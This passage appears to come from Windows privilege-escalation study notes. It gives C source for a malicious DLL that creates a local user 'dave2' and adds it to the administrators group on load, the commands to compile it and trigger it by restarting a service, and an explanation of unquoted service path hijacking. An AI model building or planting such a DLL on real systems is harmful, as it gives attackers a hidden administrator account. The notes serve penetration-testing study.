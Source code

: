 `myDLL.cpp`

```C
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
 	        i = system ("net user dave2 password123! /add");
 	        i = system ("net localgroup administrators dave2 /add");
            break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
            break;
        case DLL_THREAD_DETACH: // A thread exits normally.
            break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
            break;
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

```pwsh
Restart-Service BetaService
```

### Unquoted Service Paths

When we have **Write permissions** to a service's main directory or subdirectories but **cannot replace files** within them.

Each Windows service maps to an executable file that will be run when the service is started. If the path of this file **contains one or more spaces and is not enclosed within quotation marks**, the **CreateProcess** function starts interpreting the path from left to right until a space is reached. For every space in the file path, the function uses the preceding part as **file name** by adding `.exe` and the rest as **arguments**.

E.g., An unquoted service binary path `C:\Program Files\My Program\My Service\service.exe`

When Windows starts the service, it will use the following order to try to start the executable file due to the spaces in the path

- `C:\Program.exe`
- `C:\Program Files\My.exe`
- `C:\Program Files\My Program\My.exe`
- `C:\Program Files\My Program\My service\service.exe`
